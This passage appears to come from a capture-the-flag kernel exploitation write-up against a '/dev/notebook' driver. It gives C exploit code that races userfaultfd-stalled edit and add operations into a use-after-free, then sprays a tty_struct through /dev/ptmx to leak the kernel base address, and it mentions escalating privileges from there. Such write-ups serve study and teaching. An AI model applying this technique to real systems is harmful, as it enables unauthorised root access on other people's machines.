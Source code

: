```c
void edit_thread_func() {
    sem_wait(&edit_sem);
    edit(0, 0, uffd_buf);
}

int main() {
    int tty_fd;
    size_t tty_buf[0x100];
    save_status();
    bind_cpu(0);


    fd = open("/dev/notebook", O_RDWR);
    if (fd < 0) {
        perror("open fd");
        exit(EXIT_FAILURE);
    }
    sem_init(&add_sem, 0, 0);
    sem_init(&edit_sem, 0, 0);

    uffd_buf = (char *) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                            MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    register_userfaultfd_with_default_handler(&monitor_thread, uffd_buf, 0x1000, stuck);

    add(0, 0x20, "add");
    edit(0, 0x2e0, "tty");

    pthread_create(&add_thread, NULL, (void *)add_thread_func, NULL);
    pthread_create(&edit_thread, NULL, (void *)edit_thread_func, NULL);

    sem_post(&edit_sem);
    sleep(1);
    sem_post(&add_sem);
    sleep(1);

    puts("[+] UAF");  // 0->ptr = freed_chunk

    tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);

    note_read(0, tty_buf);
    kernel_base = tty_buf[3] - 0xe8e440;
    printf("[+] kernel_base = 0x%lx\n", kernel_base);
}
```

In this setup, we use two semaphores to coordinate. For pages that trigger faults, `stuck` suffices. Once we have a UAF, we simply use `write` for the privilege escalation.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <semaphore.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/syscall.h>

```